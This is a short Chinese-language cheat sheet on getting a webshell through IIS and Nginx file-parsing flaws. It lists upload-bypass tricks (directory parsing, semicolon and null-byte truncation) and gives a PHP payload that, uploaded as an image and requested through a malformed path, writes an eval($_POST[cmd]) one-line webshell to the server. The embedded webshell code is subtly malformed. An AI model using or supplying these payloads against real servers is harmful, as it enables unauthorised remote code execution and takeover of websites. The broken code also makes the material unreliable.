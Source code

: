 ## getshell
目录解析 1.asp/1.png
分号阶段 1.asp;.png
改包 00截断

IIS7.0 .5 Nginx<8.03畸形解析漏洞
默认FAST-CGI开启状态上传一个1.jpg内容
```php
<?php fputs(fopen('shell.php','w'),'?<php eval($_POST[cmd]?>');?>
```

访问1.jpg/.php。在这个目录下就会生成一句话木马shell.php
